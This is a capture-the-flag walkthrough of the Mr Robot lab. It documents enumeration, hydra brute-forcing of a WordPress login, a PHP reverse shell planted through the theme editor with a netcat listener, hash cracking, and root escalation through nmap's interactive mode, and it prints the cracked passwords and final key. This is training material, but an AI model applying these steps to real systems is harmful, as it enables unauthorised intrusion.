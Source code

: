 # Introduction
seems to be a beginner friendly CTF... again :-/  Objective is to find 3 keys so lets get started

# Enumeration
### Nmap
```sh
$ cat nmap/initial
# Nmap 7.95 scan initiated Sun Nov  3 15:45:36 2024 as: nmap -p- -oN nmap/initial 10.10.192.6
Nmap scan report for 10.10.192.6
Host is up (0.039s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```
*lets check out the http(s) server...*
### http server
when we open the page we are greeted with a grub boot screen and then this
![[Pasted image 20241103155517.png]]
#### Commands
**Prepare:**
	we are greeted with a video...
	[[prepare.webm]]
**Fsociety:**
	we get another video
	[[fsociety.webm]]
**Question:**
	this time we get a slideshow of images... *this is one of them*
	 ![[Pasted image 20241103160958.png]]
**Wakeup:**
	another video...
	[[wakeup.webm]]
**Inform:**
	gets us a screen with a bunch of news letters beneath a few words from mr.robot
	![[Pasted image 20241103160114.png]]
**Join:**
	we got greeted with a dialogue where he asked us to give him a email I tried it with a trash-mail but nothing arrived.. *probably because there is no mail server running on the machine*
	![[Pasted image 20241103161651.png]]

#### robots.txt
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
these are 2 files on the http server 
* `fsocity.dic` is a wordlist
* `key-1-of-3.txt` is the first key

#### Fuzzing
```
 :: Method           : GET
 :: URL              : http://10.10.192.6/FUZZ
 :: Wordlist         : FUZZ: /home/janosch/git/labs/MrRobotCTF/loot/fsocity.dic
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 57ms]
css                     [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 38ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 702ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 39ms]
video                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
audio                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
admin                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
blog                    [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 38ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 616ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 44ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 674ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 40ms]
Year201120102009200820072006200520042003200220012000199919981997199619951994199319921991199019891988198719861985198419831982198119801979197819771976197519741973197219711970196919681967196619651964196319621961196019591958195719561955195419531952195119501949194819471946194519441943194219411940193919381937193619351934193319321931193019291928192719261925192419231922192119201919191819171916191519141913191219111910190919081907190619051904190319021901 [Status: 403, Size: 657, Words: 16, Lines: 10, Duration: 38ms]
..Snip..(loop)
```
##### /login
![[Pasted image 20241103173548.png]]
looks like a Wordpress login screen lets try brute-forcing for the username

# Vulnerability Assessment
### /login
lets try to find the right request using burp
```HTTP
POST /wp-login.php HTTP/1.1
Host: 10.10.237.121
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.237.121
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.237.121/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1
```

# Exploitation

## Cracking Passwords in WordPress
built this command with hydra and found a username
```sh
$ hydra -L fsocity.dic -p pass http-post-form://10.10.237.121"/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -I

..Snip..

[80][http-post-form] host: 10.10.237.121   login: Elliot   password: pass
[80][http-post-form] host: 10.10.237.121   login: elliot   password: pass
```
now lets try to find the password

_..brute forcing the password took a bit too long and I realized that I have to remove the duplicates from the wordlist.._
```sh
sort fsocity.dic | uniq > fsocity.dic.uniq
```
the size difference is quiet noticeable
```
-rw-r--r-- 1 janosch wheel 7245381 fsocity.dic
-rw-r--r-- 1 janosch wheel   96747 fsocity.dic.uniq
```

```zsh
$ hydra -l elliot -P fsocity.dic.uniq http-post-form://10.10.154.137"/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-05 15:14:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.154.137:80/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username
[STATUS] 2036.00 tries/min, 2036 tries in 00:01h, 9416 to do in 00:05h, 16 active
[80][http-post-form] host: 10.10.154.137   login: elliot   password: ER28-0652
```

## RCE exploit via Theme
found this [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and used the Editor to replace the 404 Template with the exploit

```sh
$ nc -lvnp 1234                                                                                  ✘ 1
Connection from 10.10.52.84:37095
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:47:40 up 13 min,  0 users,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
We Got A shell  ^-^
# Privilege Escalation
now that we've gotten a shell we should have a look at the home folder

```sh
$ cd /home 
$ ls
robot
$ cd robot 
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

so we cant access the second key because we don't have privilege but the password hash seems to be in the other file so we just need to crack it

...I did a ton of research because john and hash-cat didn't give any results(_using `fsocity.dic.uniq`_). Eventually I found a page called https://crackstation.net/  that was able to crack the hash!
![[Pasted image 20250304073703.png]]

so with the password we now just need to login as mr. robot


```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot 
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$
```

as robot we were now able to get the second Key!

---

For Key number three we got the hint: "nmap" so I did some testing and turns out that nmap is installed on the system and robot has access to use it. After testing the interactive shell I found out that all commands I run with it are as root so I took a look at /root


```bash
robot@linux:/$ nmap --interactive 


nmap> !whoami
root
nmap> !ls /root
firstboot_done  key-3-of-3.txt
nmap> !cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
nmap> 

(snipped out all the useless stuff)
```
